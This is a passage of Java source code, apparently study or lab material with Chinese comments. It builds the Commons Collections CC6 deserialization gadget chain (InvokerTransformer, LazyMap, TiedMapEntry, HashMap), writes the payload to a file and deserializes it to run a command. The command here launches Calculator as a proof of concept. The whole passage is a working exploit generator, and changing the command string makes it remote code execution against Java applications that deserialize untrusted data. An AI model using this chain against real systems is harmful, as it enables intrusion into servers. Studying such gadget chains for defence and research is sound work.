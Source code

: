 ```
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[] {"/System/Applications/Calculator.app/Contents/MacOS/Calculator"}),
                new ConstantTransformer(1),
        };

        Transformer transformerChain = new ChainedTransformer(transformers);

        // 创建一个map，不用添加Entry
        Map innerMap = new HashMap();

        // 调用 LazyMap.decorate 实例化 LazyMap
        // 先传入一个人畜无害的Transformers对象，避免本地调试时触发命令执行
        Map outerMap = LazyMap.decorate(innerMap, new ConstantTransformer(1));

        //创建TideMapEntry实例
        TiedMapEntry tme = new TiedMapEntry(outerMap, "keykey");

        //创建HashMap并将tme作为HashMap的key
        Map expMap = new HashMap();
        expMap.put(tme, "valuevalue");

        // HashMap中已存放有key为keykey，导致 factory.transform(key) 方法无法触发,故移除 `LazyMap` 中的 `keykey` 这个 `key`
        outerMap.remove("keykey");
        // outerMap.clear();

        //将真正的transformers数组设置进来
        Class c = LazyMap.class;
        Field factoryField = c.getDeclaredField("factory");
        factoryField.setAccessible(true);
        factoryField.set(outerMap, transformerChain);

//        //==================
//        //⽣成序列化字符串
//        ByteArrayOutputStream bos = new ByteArrayOutputStream();
//        ObjectOutputStream oos = new ObjectOutputStream(bos);
//        oos.writeObject(expMap);
//        oos.close();
//
//        System.out.println(bos);
//
//        // 反序列化
//        ByteArrayInputStream bis = new ByteArrayInputStream(bos.toByteArray());
//        ObjectInputStream ois = new ObjectInputStream(bis);
//        ois.readObject();

        // 序列化
        serialize(expMap);
        // 反序列化
        unserialize("ser_CC6_1.bin");

    }

    public static void serialize(Object obj) throws IOException {
        FileOutputStream fileOutputStream = new FileOutputStream("./ser_CC6_1.bin");
        ObjectOutputStream outputStream = new ObjectOutputStream(fileOutputStream);
        outputStream.writeObject(obj);
        outputStream.close();
        fileOutputStream.close();
    }

```